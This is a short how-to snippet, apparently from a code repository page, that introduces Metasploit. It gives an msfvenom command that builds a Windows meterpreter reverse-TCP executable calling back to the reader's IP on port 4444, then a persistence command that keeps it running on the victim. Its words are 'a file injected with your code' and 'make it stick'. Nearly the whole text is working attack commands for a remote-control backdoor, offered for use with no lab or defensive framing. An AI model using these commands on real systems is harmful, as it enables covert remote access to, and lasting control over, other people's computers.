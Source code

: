 [Metasploit](https://www.metasploit.com/) is a penetration testing application that can be used to perform various activities on remote computers once they open a file injected with your code.

Here is how you create a payload

`msfvenom --payload windows/meterpreter/reverse_tcp --arch x86 --format exe LHOST=you_ip_here LPORT=4444 > somefilename.exe`

Run the following command to make it stick

`run persistence -U -i 10 -p 4444 -r your_ip_here`